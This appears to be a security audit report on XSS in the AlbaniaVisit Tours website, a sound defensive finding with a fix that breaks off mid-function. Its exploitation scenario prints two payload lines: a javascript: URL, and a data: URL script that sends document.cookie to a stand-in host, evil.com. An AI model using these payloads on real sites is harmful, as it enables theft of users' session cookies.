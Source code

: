 # 🔒 Comprehensive Security Audit Report - AlbaniaVisit Tours

**Date:** 2025-08-09  
**Auditor:** Senior Security Engineer  
**Scope:** Recent codebase changes with focus on client-side JavaScript, input validation, and XSS vulnerabilities

## Executive Summary

This security audit identified **12 HIGH**, **8 MEDIUM**, and **5 LOW** severity vulnerabilities across the AlbaniaVisit Tours platform. Critical issues include multiple XSS vulnerabilities, unsafe DOM manipulation, insecure data exposure, and missing input validation. Immediate action is required to address HIGH severity issues before production deployment.

---

## 🚨 CRITICAL FINDINGS (Immediate Action Required)

### 1. **Cross-Site Scripting (XSS) - Multiple Vectors**

#### Risk Level: **HIGH**
#### Issue Type: Security Vulnerability
#### Location: `/src/pages/tours/[slug].astro`, lines 750-942

**Description:**  
The tour detail page uses `define:vars` to pass tour image URLs directly into client-side JavaScript without proper sanitization. This creates multiple XSS attack vectors.

**Vulnerable Code:**
```javascript
// Line 750
<script define:vars={{ tourImages: tour.images.map(img => img.url) }}>
  // tourImages array is directly interpolated without sanitization
  heroImage.src = tourImages[index]; // Line 777
  lightboxImage.src = tourImages[index]; // Line 787
</script>
```

**Exploitation Scenario:**  
An attacker could inject malicious JavaScript through tour image URLs stored in the database:
```javascript
// Malicious URL in database
"javascript:alert(document.cookie)"
"data:text/html,<script>fetch('//evil.com?c='+document.cookie)</script>"
```

**Recommended Fix:**
```javascript
// Sanitize URLs before using in DOM
function sanitizeImageUrl(url) {
  if (!url) return '/placeholder.jpg';
  
  // Only allow http(s) and data URLs for images
  const allowedProtocols = ['http:', 'https:', 'data:'];
  try {
    const parsedUrl = new URL(url);
    if (!allowedProtocols.includes(parsedUrl.protocol)) {
      console.error('Invalid image URL protocol:', url);
      return '/placeholder.jpg';
    }
    // For data URLs, ensure they're images
    if (parsedUrl.protocol === 'data:' && !url.startsWith('data:image/')) {
```
